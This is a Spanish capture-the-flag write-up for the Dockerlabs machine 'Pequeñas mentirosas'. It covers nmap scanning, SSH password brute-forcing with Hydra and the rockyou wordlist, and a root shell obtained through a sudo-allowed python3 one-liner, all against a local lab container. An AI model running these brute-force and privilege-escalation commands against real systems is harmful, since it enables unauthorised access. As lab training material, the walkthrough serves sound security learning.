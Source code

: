 # 🖥️ Writeup - Pequeñas mentirosas 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip pequenas-mentirosas.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh pequenas-mentirosas.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-12 16:46 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 9e:10:58:a5:1a:42:9d:be:e5:19:d1:2e:79:9c:ce:21 (ECDSA)
|_  256 6b:a3:a8:84:e0:33:57:fc:44:49:69:41:7d:d3:c9:92 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.75 seconds
```

Tenemos abiertos los puertos `22` y `80`.

Accedemos por `HTTP` y nos encontramos con el siguiente mensaje.

```
Pista: Encuentra la clave para A en los archivos.
```

Realizamos `fuzzing` de directorios para intentar descubrir directorios o archivos ocultos, pero no obtenemos ningún resultado.

Buscando por internet, descubrimos que `A` es un personaje de la serie `Pequeñas Mentirosas`, por lo que podría ser un usuario del sistema.

# FUERZA BRUTA

Intentamos un ataque de fuerza bruta con `Hydra` sobre el puerto `22` (`SSH`).

```bash
hydra -l a -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

Info:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-12 16:52:50
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: a   password: secret
```

Encontramos credenciales para el usuario `a` : `secret`.

Accedemos por SSH.

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo`, `SUID`, `Capabilities`.

Pero no encontramos ninguna vía de escalada.

Posteriormente, detectamos que existe otro usuario llamado `spencer`, así que lanzamos un ataque de `fuerza bruta` con este usuario.

```bash
hydra -l spencer -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-12 16:59:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: spencer   password: password1
```

Una vez autenticados como `spencer`, comprobamos permisos `sudo`, `SUID` y `Capabilities`.

```bash 
sudo -l
```

Info:
```
Matching Defaults entries for spencer on a2cca82350e8:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User spencer may run the following commands on a2cca82350e8:
    (ALL) NOPASSWD: /usr/bin/python3
```

Verificamos que podemos ejecutar el binario `python3` con privilegios de `root`, lo cual aprovechamos para escalar al de la siguiente manera:

```bash
sudo python3 -c 'import os; os.system("/bin/sh")'
```

Info:
```
# whoami
root
# 
```

Ya somos root!